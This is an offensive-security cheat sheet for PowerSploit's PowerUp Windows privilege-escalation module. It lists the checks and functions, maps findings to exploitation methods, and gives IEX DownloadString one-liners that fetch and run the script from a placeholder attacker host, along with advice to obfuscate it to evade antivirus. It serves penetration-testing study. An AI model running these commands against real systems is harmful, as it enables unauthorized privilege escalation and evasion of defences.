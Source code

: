 
## 🧰 What PowerUp Does

PowerUp checks for:

- 🛠️ Unquoted service paths
- 🔒 Weak service permissions
- 🧑‍💼 Insecure registry permissions
- 🧾 Credential files (e.g., `unattend.xml`)
- 🧰 AlwaysInstallElevated misconfig
- 🪛 DLL hijacking opportunities
- 🖥️ Startup applications & autoruns

---

## 📦 Download & Setup

Clone the repository:
```
git clone https://github.com/PowerShellMafia/PowerSploit.git
cd PowerSploit/Privesc
```

Or download only PowerUp:
```
# From PowerShell (attacker machine)
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1" -OutFile "PowerUp.ps1"
```

## ⚙️ Execution Options

### Import the Module
```
Import-Module .\PowerUp.ps1
```

### Run All Checks
```
Invoke-AllChecks
```
🚨 This will run the full suite of escalation checks and highlight potential vectors.

## 🔍 Useful Functions

|Function|Description|
|---|---|
|`Invoke-AllChecks`|Run all escalation checks|
|`Invoke-ServiceUnquoted`|Find unquoted service paths|
|`Invoke-ServiceWeakPermissions`|Find services with weak permissions|
|`Get-ModifiablePath`|List modifiable directories in `PATH`|
|`Get-RegAlwaysInstallElevated`|Check AlwaysInstallElevated setting|
|`Get-UnattendedInstallFile`|Search for unattended install files|
|`Get-CachedGPPPassword`|Detect Group Policy password artifacts|
|`Invoke-DllHijack`|Discover vulnerable DLL hijack locations|
|`Get-ProcessTokenPrivilege`|Show token privileges for running processes|

### 🧪 Example Workflow
```
# Load PowerUp
Import-Module .\PowerUp.ps1

# Run all checks
Invoke-AllChecks

# Specific checks
Invoke-ServiceUnquoted
Get-RegAlwaysInstallElevated
```

## 🚀 Exploitation Opportunities

|Finding|Potential Exploit|
|---|---|
|Unquoted service path + writable dir|Replace EXE and restart service|
|Weak service permissions|Replace binary or change config|
|AlwaysInstallElevated|Create malicious MSI installer|
|Writable PATH entry|Drop malicious binary|
|Unattended install files|Extract plaintext passwords|
|DLL hijack|Place malicious DLL in load path|## 📁 Transferring to Target
### 📁 Transferring to Target
### Method: PowerShell Web Download
```
IEX (New-Object Net.WebClient).DownloadString('http://<attacker-ip>/PowerUp.ps1')
Invoke-AllChecks
```

Or host it with Python:
```
python3 -m http.server 8080
```

```
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://<attacker-ip>:8080/PowerUp.ps1')"
```

## 🛡️ OPSEC Considerations

- PowerUp is **noisy** — may trigger AV or logging
    
- Consider obfuscating or encoding the script
    
- Prefer offline analysis when possible









































































